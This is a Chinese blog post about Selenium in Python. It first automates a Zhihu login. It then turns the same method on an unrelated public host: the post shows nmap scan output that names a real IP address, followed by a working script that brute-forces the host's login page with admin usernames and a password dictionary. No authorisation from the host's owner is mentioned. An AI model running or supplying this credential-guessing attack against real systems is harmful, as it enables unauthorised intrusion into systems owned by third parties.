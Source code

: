 ```yaml
---
layout: post
title: 使用selenium登陆网站
date: 2016-10-04 10:00:00 +0800
tags:
- selenium
- python
---
```


[Selenium][selenium]是一个用于Web应用程序自动化测试的工具。Selenium测试直接运行在浏览器中，就像真正的用户在操作一样，支持IE、Firefox、chrome等浏览器。本文使用了其自动登录网站的功能（Python库）。

{% highlight shell %}
$sudo pip install -U selenium
{% endhighlight %}

在浏览器查看知乎的登录界面的源码如下图:

![zhihu](/assets/201610/zhihu.png)

{% highlight python %}
#!/usr/bin/python
#coding:utf-8

import time
from selenium import webdriver

url = "http://www.zhihu.com/#signin"

browser = webdriver.Firefox()
browser.get(url)

# 根据name来定位网页控件
browser.find_element_by_name("account").clear()
# 模拟向输入框输入文本
browser.find_element_by_name("account").send_keys('your_account')
browser.find_element_by_name("password").clear()
browser.find_element_by_name("password").send_keys('your_password')

# 根据class来定位网页控件并模拟点击按钮
browser.find_element_by_class_name("submit").click()
{% endhighlight %}

这样，如果用户名和密码正确，就会登录知乎成功。

我们很自然地会想到，可以使用这种方法来hack使用弱密码的网站。假设现在有个公网IP，我们通过[nmap][nmap]查看其主机的OS及开放的端口号：

{% highlight shell %}
$sudo nmap -O xxx.xxx.xxx.xxx
Starting Nmap 6.47 ( http://nmap.org ) at 2016-10-04 11:05 CST
Nmap scan report for 218.205.169.209
Host is up (0.026s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server
8290/tcp open  unknown
8443/tcp open  https-alt
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|WAP|phone
Running: iPXE 1.X, Linksys Linux 2.4.X, Linux 2.6.X, Sony Ericsson embedded
OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linksys:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6 cpe:/h:sonyericsson:u8i_vivaz
OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone

OS detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.36 seconds
{% endhighlight %}

可以看出，该主机开放了80端口和443端口，尝试在浏览器输入http://xxx.xxx.xxx.xxx和https://xxx.xxx.xxx.xxx，展现在我们面前的是一个登陆系统，下面就可以使用Selenium来模拟手动密码输入，如过有验证码输入则需要进行使用图像识别库进行帮助。

由于登陆网页没有提示输入验证码，因此我们使用密码字典来进行试探用户名密码，代码如下

{% highlight python %}
#!/usr/bin/python
#coding:utf-8

import time
from selenium import webdriver

url = "http://xxx.xxx.xxx.xxx/login?TimeZone=-480"

# 假定几个常用的管理员用户名
user_list = ['admin', 'root', 'administrator']

# 导入密码字典
passwd_list = list()
fd = open('passwd.txt', 'r')
for line in fd:
	passwd_list.append(line.split()[0])
fd.close()

browser = webdriver.Firefox()
browser.get(url)

for username in user_list:
	for passwd in passwd_list:
		# 由于登陆之后脚本定位不到控件会报错，因此在这里打印username和passwd以便知道登陆系统使用的username和passwd
		print username, passwd
		# 根据id来定位网页控件
		browser.find_element_by_id("username").clear()
		browser.find_element_by_id("username").send_keys(username)
		browser.find_element_by_id("password").clear()
		browser.find_element_by_id("password").send_keys(passwd)
		browser.find_element_by_id("submit_btn").click()
{% endhighlight %}

Selenium的python用户手册：[http://selenium-python.readthedocs.io/index.html][selenium-python]

常用密码字典：[https://github.com/danielmiessler/SecLists/tree/master/Passwords][password]

[selenium]: https://github.com/SeleniumHQ/selenium
[nmap]: http://nmap.org
[password]: https://github.com/danielmiessler/SecLists/tree/master/Passwords
[selenium-python]: http://selenium-python.readthedocs.io/index.html
